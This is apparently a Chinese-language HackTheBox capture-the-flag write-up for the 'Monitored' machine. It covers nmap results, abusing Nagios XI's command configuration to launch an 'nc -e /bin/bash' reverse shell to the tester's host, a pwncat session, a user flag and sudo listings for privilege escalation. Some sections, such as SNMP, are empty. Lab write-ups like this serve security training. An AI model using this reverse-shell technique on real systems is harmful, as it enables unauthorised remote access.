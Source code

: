# Monitored

:::info

Difficulty: Medium

Operating System: Linux

:::

## nmap 信息搜集

```plaintext
Nmap scan report for 10.10.11.248
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn:
|_  http/1.1
5667/tcp open  tcpwrapped
```

并且通过 UDP 扫描，发现 SNMP（161）也在运行

## 探测 web 服务

添加 hosts 记录

```plaintext
10.10.11.248 nagios.monitored.htb
```

尝试直接访问

![直接访问 /](img/image_20240132-123225.png)

## SNMP 信息探测

## 登陆后利用

![成功登录](img/image_20240104-130436.png)

```plaintext
Configure ->  Commands ->  Add New
```

![Commands](img/image_20240105-130554.png)

加上一个反向 shell 的命令

```shell
nc -e /bin/bash 10.10.16.11 9999
```

:::note

建议使用 netcat 进行反向 shell，直接 bash -c 不知道为什么没有成功

:::

![add reverse shell](img/image_20240109-130936.png)

```plaintext
Monitoring -> Services -> Add New
```

![Services](img/image_20240111-131120.png)

执行 `Run Check Command`

成功得到反弹shell

```shell
┌─[randark@randark-Parrot]─[~/tmp/Hackthebox-Monitored]
└──╼ $pwncat-cs -lp 9999
[13:07:28] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[13:14:12] received connection from 10.10.11.248:53958                                                                                                                                                                           bind.py:84
[13:14:14] 0.0.0.0:9999: normalizing shell path                                                                                                                                                                              manager.py:957
[13:14:16] 10.10.11.248:53958: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$ back
(remote) nagios@monitored:/home/nagios$ whoami
nagios
```

## user pwned

```shell
(remote) nagios@monitored:/home/nagios$ cat user.txt 
5a9412d810390fed6e458fe5dba7bf30
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

## 参考

[Acters/Monitored.sh - Github Gist](https://gist.github.com/Acters/058b0421dba28860afd5559db6a7afee)
